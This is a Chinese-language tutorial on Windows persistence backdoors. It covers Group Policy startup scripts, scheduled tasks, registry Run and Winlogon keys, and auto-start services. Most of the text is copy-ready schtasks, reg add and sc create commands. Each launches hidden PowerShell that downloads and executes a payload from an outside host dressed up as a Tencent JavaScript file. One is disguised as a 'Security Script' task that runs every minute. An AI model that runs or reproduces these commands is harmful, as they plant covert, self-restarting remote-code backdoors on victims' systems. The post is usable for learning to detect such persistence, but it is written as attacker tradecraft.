





<!--more--> 
# 0x01 组策略设置脚本启动
<font style="color:rgb(51, 51, 51);">运行gpedit.msc进入本地组策略，通过Windows设置的“脚本(启动/关机)”项来说实现。因为其极具隐蔽性，因此常常被攻击者利用来做服务器后门。</font>

在win+r对话框中输入 `gpedit.msc` 定位到”计算机配置->windows设置->脚本(启动/关机）“，双击右边窗口的启动/关机，在其中添加脚本。



<font style="color:rgb(51, 51, 51);">容易遇到的问题：脚本需全路径，如 </font>`<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);">C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe</font>`

<font style="color:rgb(51, 51, 51);background-color:rgb(247, 247, 247);"></font>

# 0x02 计划任务
通过window系统的任务计划程序功能实现定时启动某个任务，执行某个脚本。

使用以下命令可以一键实现：

```shell
schtasks /create /sc minute /mo 1 /tn "Security Script" /tr "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring(\"\"\"https://dev-game-tencent.cf:8443/static/js/main.b1fd0d59.chunk.1643177225450.js.exe\"\"\"))\""
```

> 容易遇到的问题：cmd命令行执行单引号会被替换成双引号，故这里使用三个双引号替代。
>

1. `/create` 是创建命令。
2. `/sc` 是指定计划频率。
3. `/mo` 周期。
4. `/tn` 任务名字
5. `/tr` 指定在这个计划时间运行的程序的路径和文件名。

这里计划脚本每 1 分钟运行一次。



如果想要删除可以使用

```shell
schtasks /delete  /tn "Security Script" /F
```

根据定义的 task name 加 `/F` 表示强制删除不用询问。


# 0x03 注册表自启动
通过修改注册表自启动键值，添加一个木马程序路径，实现开机自启动。

常用的注册表启动键：

```shell
# Run键  
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices
HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce
# Winlogon\Userinit键
HKEY_CURRENT_USER\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion\Winlogon
```

以上是添加当前用户的Run键。类似的还有很多,关键词：注册表启动键值。 

如果已经获得**system权限**的shell，则最好使用本地计算机注册表位置。这样就无论谁登录，都可以进行执行。

使用以下命令可以一键实现无文件注册表后门：

```shell
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /t REG_SZ /d "C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://dev-game-tencent.cf:8443/static/js/main.b1fd0d59.chunk.1643177225450.js.exe'))\"" /f
```

1. `/v` 所选项之下要添加的值名称。
2.  `/t` RegKey 数据类型

           [ REG_SZ    | REG_MULTI_SZ | REG_EXPAND_SZ |

             REG_DWORD | REG_QWORD    | REG_BINARY    | REG_NONE ]

           如果忽略，则采用 REG_SZ。

3.  `/d` 要分配给添加的注册表 ValueName 的数据。
4. `/f` 不用提示就强行覆盖现有注册表项。

> Run中的程序是在每次系统启动时被启动，RunServices则是会在每次登录系统时被启动。
>

如果要删除注册表后门，可以执行以下命令

```shell
reg delete HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run /v "Keyname" /f
```

# 0x04 服务自启动
<font style="color:rgb(51, 51, 51);">通过服务设置自启动，结合powershell实现无文件后门。</font>

<font style="color:rgb(51, 51, 51);">使用以下命令可实现：</font>

```shell
sc create "KeyName" binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://dev-game-tencent.cf:8443/static/js/main.b1fd0d59.chunk.1643177225450.js.exe'))\"" 
sc description  KeyName "Just For Test"   //设置服务的描述字符串
sc config KeyName start= auto                //设置这个服务为自动启动
net start KeyName     //启动服务 
```

<font style="color:rgb(51, 51, 51);">还有一种更快捷的命令</font>

```shell
sc create KeyName binpath= "cmd /c start powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('https://dev-game-tencent.cf:8443/static/js/main.b1fd0d59.chunk.1643177225450.js.exe'))\""  start="auto" obj="LocalSystem"
sc start KeyName
```

> 等号和值之间需要一个空格。
>

<font style="color:rgb(51, 51, 51);">成功创建了一个自启动服务</font>



通过 net 启动之后马上做了一个连接


执行之后服务也不会运行中



想要删除可以使用

`sc delete "KeyName"`




